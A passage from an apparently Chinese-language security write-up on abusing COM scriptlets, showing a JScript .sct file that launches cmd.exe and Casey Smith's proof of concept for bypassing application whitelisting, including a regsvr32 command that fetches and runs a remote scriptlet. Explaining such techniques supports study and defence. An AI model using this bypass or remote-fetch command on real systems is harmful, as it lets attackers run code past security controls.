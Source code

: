 **(4)调用COM组件"JSRAT"**

即可启动JSRAT

0x04 应用2：绕过应用程序白名单过滤
====================

* * *

标准的xml文件的内容如下：

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Empire"
    progid="Empire"
    version="1.00"
    classid="{20001111-0000-0000-0000-0000FEEDACDC}"
    >
</registration>

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

    function Exec()
    {
        var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
    }

]]>
</script>

</scriptlet>

```

在成功注册COM组件后，通过调用exec()才能够执行里面的功能

**那么，如果把Exec()的功能直接加到`<registration>`的标签中呢？****会不会在注册的过程中就可以调用exec()？**

以下是Casey的实现方式：

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Empire"
    progid="Empire"
    version="1.00"
    classid="{20001111-0000-0000-0000-0000FEEDACDC}"
    >
    <!-- regsvr32 /s /i"C:\Bypass\Backdoor.sct" scrobj.dll -->
    <!-- regsvr32 /s /i:http://server/Backdoor.sct scrobj.dll -->
    <!-- That should work over a proxy and SSL/TLS... -->
    <!-- Proof Of Concept - Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[

            var r = new ActiveXObject("WScript.Shell").Run("calc.exe"); 

        ]]>
</script>
```